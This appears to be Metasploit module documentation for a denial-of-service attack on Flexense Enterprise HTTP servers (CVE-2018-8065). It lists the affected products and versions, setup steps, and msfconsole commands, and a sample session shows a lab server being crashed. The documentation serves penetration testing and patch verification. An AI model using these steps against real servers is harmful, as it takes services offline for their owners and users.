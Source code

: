 ## Vulnerable Application

### Description

This module triggers a Denial of Service vulnerability in the Flexense Enterprise HTTP server. It is possible to trigger
a write access memory vialation via rapidly sending HTTP requests with large HTTP header values.

According To publicly exploit Disclosure of Flexense HTTP Server v10.6.24
Following list of softwares are vulnerable to Denial Of Service.
read more : http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-8065

DiskBoss Enterprise    <= v9.0.18
Sync Breeze Enterprise <= v10.6.24
Disk Pulse Enterprise  <= v10.6.24
Disk Savvy Enterprise  <= v10.6.24
Dup Scout Enterprise   <= v10.6.24
VX Search Enterprise   <= v10.6.24

**Vulnerable Application Link**
http://www.diskboss.com/downloads.html
http://www.syncbreeze.com/downloads.html
http://www.diskpulse.com/downloads.html
http://www.disksavvy.com/downloads.html
http://www.dupscout.com/downloads.html


### Installation Setup.

All Flexense applications that are listed above can be installed by following these steps.

Download Application : ```https://github.com/EgeBalci/Sync_Breeze_Enterprise_10_6_24_-DOS/raw/master/syncbreezeent_setup_v10.6.24.exe```

**And Follow Sync Breeze Enterprise v10.6.24 Setup Wizard**

After the installation navigate to: ```Options->Server```

Check the box saying: ```Enable web server on port:...```

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use auxiliary/dos/http/flexense_http_server_dos`
  4. Do: `set rport <port>`
  5. Do: `set rhost <ip>`
  6. Do: `check`
```
[+] 192.168.1.20:80 The target is vulnerable.
```
  7. Do: `run`
  8. Web server will crash after 200-1000 request depending on the OS version and system memory.

## Scenarios

### WINDOWS 7/10

```
msf > use auxiliary/dos/http/flexense_http_server_dos 
msf auxiliary(dos/http/flexense_http_server_dos) > set rhost 192.168.1.27
rhost => 192.168.1.27
msf auxiliary(dos/http/flexense_http_server_dos) > set rport 80
rport => 80
msf auxiliary(dos/http/flexense_http_server_dos) > run

[*] 192.168.1.20:80 - Triggering the vulnerability
[+] 192.168.1.20:80 - DoS successful 192.168.1.20 is down !
[*] Auxiliary module execution completed

```
